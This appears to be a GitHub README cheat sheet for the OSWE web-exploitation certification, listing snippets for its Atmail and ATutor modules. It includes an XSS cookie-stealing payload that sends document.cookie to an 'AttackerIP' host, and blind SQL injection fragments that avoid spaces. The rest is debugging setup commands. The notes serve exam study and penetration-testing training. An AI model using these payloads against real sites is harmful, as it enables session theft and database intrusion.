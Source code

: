 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module : Atmail (PHP):

1. Access and alert cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    #<script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    #python3 -m http.server
    
3. Embeded cookie steal payload in image tag<br>
    #function addImage() {<br>
    #var img = document.createElement('img');<br>
    #img.src = 'http://AttackerIP:port/' + document.cookie;<br>
    #document.body.appendChild(img);<br>
    #}<br>
    #addImage();<br>
    
4. Set cookie by web developer console<br>
    #javascript:void(document.cookie="cookiename=value");
 
5. XHR POST Request <br>
    #xhr= new XMLHttpRequest()<br>
    #xhr.open("POST", url, true)<br>
    #xhr.send(data)<br>
    
6. XHR GET Request <br>
    #xhr= new XMLHttpRequest()<br>
    #xhr.open("GET", url, true)<br>
    #xhr.send()<br>

 Module : ATutor Authentication Bypass and RCE (PHP) :<br>
 1. Enable MySQL DB logging<br>
    #nano /etc/mysql/my.cnf         // uncomment or add below line<br>
            #[mysqld]<br>
            #general_log_file = /var/log/mysql/mysql.log<br>
            #general_log = 1<br>
    #systemctl restart mysql        //Restart MySQL<br>
    #tail –f /var/log/mysql/mysql.log   //Access MySQL Log<br>
    
 2. Enable PHP verbose error<br>
    #nano /etc/php5/apache2/php.ini   //uncomment or add below line<br>
        #display_errors = On <br>
    #systemctl restart apache2     //Restart Apache<br>
    
3. Print statement in PHP<br>
    #echo "any message";<br>
    
4. Dump information about varaible<br>
    #var_dump($var);<br>
    
5. Serach for fiunction in code<br>
    #grep -rnw "function name(" ./ --color<br>
    
5. Check magic quote enable<br>
    #var_dump(get_magic_quotes_gpc());  /** for enable value is 1 **/<br>
    
6. MYSQL query without space<br>
    #mysql> select/**/1; <br>
    
7. Extract first character of version in case of blind MySQL query<br>
    #mysql> select/**/ascii(substring((select/**/version()),1,1))=53;  /** use with "or" boolean **/<br>

    

